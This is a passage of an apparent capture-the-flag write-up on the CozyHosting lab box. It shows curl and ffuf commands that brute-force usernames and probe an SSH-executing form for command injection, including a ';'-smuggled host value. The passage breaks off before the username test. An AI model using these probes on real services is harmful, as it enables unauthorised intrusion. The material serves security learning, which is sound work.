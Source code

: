 The form does a POST request to the endpoint `/executessh` with two parameters: `host` and `username`. Above the form, there is a message saying: "For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorized_keys file." We can suppose the website execute an SSH query for the specified user.
If we send `cozyhosting.htb` with the username `kanderson`, an error is raised: "Host key verification failed." It seems to mean that the user `kanderson` does not have the private key. We can check the host name is correct by sending a request with a bad hostname. In that case, you get the error: "ssh: Could not resolve hostname dsqqdsd: Temporary failure in name resolution". This is the error message provided by ssh. We can suppose this form is vulnerable to command injection. Meanwhile, we can try to bruteforce the username with:
```
$ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt:USERNAME -u http://cozyhosting.htb/executessh -X POST -d "host=cozyhosting.htb&username=USERNAME" -H 'Content-Type: application/x-www-form-urlencoded' -fr "Host key verification failed" -ic -r
```
Indeed, it seems that this endpoint does not require authentication. However, I got no results.
### Command injection
It appears that the data sent through the form `/executessh` is directly used in a command. Let's create a curl command that will send this form and, then, we will tweak it to find any potential vulnerabilities:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host cozyhosting.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.88
*   Trying 10.129.229.88:80...
* Connected to cozyhosting.htb (10.129.229.88) port 80
> POST /executessh HTTP/1.1
> Host: cozyhosting.htb
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 39
> 
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 16 Mar 2024 16:42:00 GMT
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=Host key verification failed.
< Connection: keep-alive
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 0
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< 
* Connection #0 to host cozyhosting.htb left intact
```
I used to `-v` option to see the request and the response. In the response, we can see the error that is returned to the `Location` header: "Host key verification failed". To find a command injection, I will try to add a `;` in one of the fields to check what happens. Indeed, `;` is the command separator for shell commands. Let's see what happens for the `host` parameter:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb;&username=kanderson' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=Invalid hostname!
```
The error is now "Invalid hostname". It seems there is a kind of validation of the `host` parameter. Let's look at the `username` parameter:
```
```